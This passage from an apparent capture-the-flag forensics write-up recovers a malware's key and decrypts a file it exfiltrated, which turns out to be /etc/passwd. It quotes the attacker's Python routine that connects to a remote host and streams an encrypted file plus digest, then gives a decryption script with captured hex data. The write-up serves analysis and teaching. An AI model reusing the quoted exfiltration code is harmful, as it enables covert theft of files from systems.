candidate: [my_s3crk7_k3y]
candidate: [my_s3crk7_3ky]
candidate: [my_s3crk7_33y]
candidate: [my_s3cr3t_kky]
candidate: [my_s3cr3t_k3y]
candidate: [my_s3cr3t_3ky]
candidate: [my_s3cr3t_33y]
candidate: [my_s3cr37_kky]
candidate: [my_s3cr37_k3y]
candidate: [my_s3cr37_3ky]
candidate: [my_s3cr37_33y]
```

We just have to check all of them but `my_s3cr3t_k3y` is the most promising.


## 5.<span id="a_part5"/> Decrypting the exfiltrated data

The protocol format is given by the following lines of code:

```python
    def tx(self):
        self.sock = socket.create_connection((self.host, self.port))
        self._send_preamble()
        self._send_file()
        self._send_digest()
        self.sock.close()
        self.finished = True
```
So we have a preamble, the file content and a digest at the end. The preamble:

```python
    def _send_preamble(self):
        self.sock.sendall(b"".join([
            u8(self.version),
            u8(len(self.cipher.nonce)),
            self.cipher.nonce,
            u8(len(self.key_salt)),
            self.key_salt,
            self.cipher.encrypt(u32(len(self.filename))),
            self.cipher.encrypt(self.filename.encode()),
        ]))
```

The actual file:

```python
def _send_file(self):
        with open(self.filename, "rb") as infile:
            while chunk := infile.read(4096):
                self.sock.sendall(self.cipher.encrypt(chunk))
```

The digest:

```python
    def _send_digest(self):
        self.sock.sendall(self.cipher.digest())
```

With that, we can use wireshark in raw format to copy paste the first payload and check we got everything right:

```python

#!/usr/bin/env python3
from pwn import *

from Crypto.Cipher import ChaCha20_Poly1305
from Crypto.Protocol.KDF import scrypt


inp = """
010c604ae70f2d462935d4c5414410757ffad80a5f69891407751da4c724bae85e70ceaf11d85130d82cc01a9771
bfacfcc42551a6d57df764b8b849b17ab8213172cb63d927488c5fff0d2815d56ad302dfc899eedce39318ab22a233ef8b83f46a355c2badfdf345b1d2c7ebf138917a8dfd59b05db7c4a9329769f418a0d6dc9abebcee7f10f6575be2c2dbd0df5a7810335afc0ce5d82da789d44d2fcc553ab422429dd8c01daf6803b9f4db2bb8f2b7ee1badc81b4ac67298b3e02d4545d50d44087e2adc24004113bedffa9380d363a17bcbf900052b5dfcac69b4fba46202ba50b05e4629eb41744c282746e7d27f036e20135a11c4e34228ebae275f100d2450c6f668999a18a7789c4977a8db721bcfbb528b809c26077dcaf3f5099fdd2a88d32f1d2afc8a537e4e2308b8d275d6834a44ad274f45d0dce5e152f08bb4e8b9d5fd07ff2cec5e50473527c092dd3072066108ef911e2528c0feef667cdc128de0b0af428eaafcd4dbdcc7af0b4612e87d16318d48708671e57b145c73e185e654c3cd298307104f1258f522e95ad795689a9aa983044cc80541905e276387161b1059c311e84c5d483717850eae7ed4084d970bb0e70ce15cae85c4c6723d3e4f70d6193371cd97ef66a270b259d282a0a488cae4a45d664f6ae529ba0c2545dc3ee1fe9f203850b58939fb52f419214ce20de7d750be4d5fceb5935a85f4fa83a9b7c1d3e1cca6e20711d293d1f8328f24cdb3657257515cdcfe34bc0dd126941118a0dd6adbcf41855c3937e52d6d3e9dd166162af7604b355724dad0f304cb0ffcef8ff779235a03d21e5dad21715a6e69c8023491dbb67e672bd3a8c6e7fffd672d9e752b180b70f8820e4c1306e4332ff82884b97be21b30f24c8b3a7beb400d136765bb5c38b4af82d893b5c0e4955e747071d5358ed021995f4c2bc4353233be277162aa1c7a8c69c1bcf0310bd0b15a578b7cc849ff57b2862d3e6919ba8235eea3d3555f49a7dcf6ebb1b8493466eed31694feef28c3e0263fe060a6514583224ff547512d32d12277ed9d7f49896b884bc565b94a6a8a21990605957bb46130427bf69f09b0b58f635c3de13053122755eb953352104205fd7378dc66de8aac2af65d1c26e164c27a4cdc5764bc06493851997c70d38c13bdd977b37784b297bbd5261f25481d2377fa99b766253e2b5c6a3a01cfae7d772d18c30d0ee0d89a3a91af443f3649ae297192f6f848b4d9d6f3e63de15d538dbb2548b88b1ed6d97579fc266e3c9df2917ca9d68a64182221b070c478dc576d3fd372549edf81116139b71777b5296d8f366e7f754bf7d843ae0473e69f8abb34d7e614e3840e3d39e6a72f76c2d8d4f48cb83844f30db6ea39d752f158575a18b806c73c565b309b19f099e8964cd916930203e67c285c480b8afb0e3d14fd3ea6b0a8d7d60d8fc66e7a3f20d512ae8ee7e0a9f509c06768c76c57b32cee672dcb255dedd5bc39d8dee0bac6fae975a3b98357dc33a62da52368092f833326f1fb510dd502b4489191346605359844ad4567dc856c9ceaa3cc66622414d4524e18b0905a7773cd06e900ab4299e94739306f8282401b74c714273a014b8ee4d52231742a4cdf0dd81949c9dfe93bd2548ae5729e2bdd9875474cd9a7d0a5e5e169f8c515d6cfc5aef25bd89e3450f6ad53d0a9db997e53865b15720948b1c4c4871498b093aa58062c1d9cd4b6716564c44318cceec9de0ea2a8d7803170b850c95f427b4dce4f2da084b1300d7e29d30e8a65ec8d5efdf0b17ed15f20f98349d4a87857e382c6575aecb74ab69006a6bd60d1422bbf18773403b6cea3581c5f9d1a94708ab6d7a4cf02d7b7f2d58dbf0abaef8c0ae7aa5b4ed96652866787aba2e9a72dc5ac358d44d037b950c6edaa131282778ae7614853268c45a03f67b94ba03b3ef3e81d4f58bc6873fab746635622a7f2affffc9fe84b09b3b5a457bc23af1bd91358e1863ca0570e21c3d5c22c0ca7fdaa9e69afe9a2852a841aedca932a9624c8200cfd51dfab96c0f443bbc73f7614fa25630b52c4828422171490594e7be10426bb440c0fd49ebd86423811b2dc366386d705f6878d26d181abda294da45da750b1214400c5e9db22396235b988d82290ee70a9f00fef494741d98ce59f7d4e255e290f21205934d21b5bb5e69e509f3ebaf2769daba7ebcd602eb89c83dcda00f2dec119c46cb096a7c7f9c0d72140e5a795ac0b641e8de048000c875641a5e29b0739dc23c7f16d865a22c55dcc881880b83dbd1ba2be4008c695e7e9882072dbfa5582fa3679019b89709723245283dde4aa1dfb40958b0de43c6bcd0ba6647d440c855eaef8206ad24944de26b3226d5e54a0211fc4accdf69a7cba84a86f49a662394aefa0db305571c5618c26a1b1e7ef3ec9672ba68629acc311b208e4063c8a48e22297ebc2d95b67f2f331d5751169c69690ffd2d0e77b312f2a0aab420c8370406db7e52a9db8d813fe6734ea372a545bd9f6eb1628cbbbd631a90c
9b437e8ba9c9ab55cb181cd670c06478
"""

inp = inp.replace("\n", "")
inp = bytes.fromhex(inp)
ciphertext = inp


key = "my_s3cr3t_k3y"
key_salt = ciphertext[15:15+16]
derived_key = scrypt(key, key_salt, 32, 2**14, 8, 1)
nonce = ciphertext[2:14]
cipher = ChaCha20_Poly1305.new(key=derived_key, nonce=nonce)
data = ciphertext[31 : -16]
pt = cipher.decrypt(data)
write("decrypted_file.data", pt)
```

```
$ hexdump -Cv decrypted_file.data 
00000000  00 00 00 0b 2f 65 74 63  2f 70 61 73 73 77 64 72  |..../etc/passwdr|
00000010  6f 6f 74 3a 78 3a 30 3a  30 3a 72 6f 6f 74 3a 2f  |oot:x:0:0:root:/|
00000020  72 6f 6f 74 3a 2f 62 69  6e 2f 62 61 73 68 0a 64  |root:/bin/bash.d|
00000030  61 65 6d 6f 6e 3a 78 3a  31 3a 31 3a 64 61 65 6d  |aemon:x:1:1:daem|
00000040  6f 6e 3a 2f 75 73 72 2f  73 62 69 6e 3a 2f 75 73  |on:/usr/sbin:/us|
00000050  72 2f 73 62 69 6e 2f 6e  6f 6c 6f 67 69 6e 0a 62  |r/sbin/nologin.b|
00000060  69 6e 3a 78 3a 32 3a 32  3a 62 69 6e 3a 2f 62 69  |in:x:2:2:bin:/bi|
00000070  6e 3a 2f 75 73 72 2f 73  62 69 6e 2f 6e 6f 6c 6f  |n:/usr/sbin/nolo|
00000080  67 69 6e 0a 73 79 73 3a  78 3a 33 3a 33 3a 73 79  |gin.sys:x:3:3:sy|
00000090  73 3a 2f 64 65 76 3a 2f  75 73 72 2f 73 62 69 6e  |s:/dev:/usr/sbin|
000000a0  2f 6e 6f 6c 6f 67 69 6e  0a 73 79 6e 63 3a 78 3a  |/nologin.sync:x:|
000000b0  34 3a 36 35 35 33 34 3a  73 79 6e 63 3a 2f 62 69  |4:65534:sync:/bi|
000000c0  6e 3a 2f 62 69 6e 2f 73  79 6e 63 0a 67 61 6d 65  |n:/bin/sync.game|
000000d0  73 3a 78 3a 35 3a 36 30  3a 67 61 6d 65 73 3a 2f  |s:x:5:60:games:/|
```

With that, we can now decrypt the third ciphertext and get the flag:





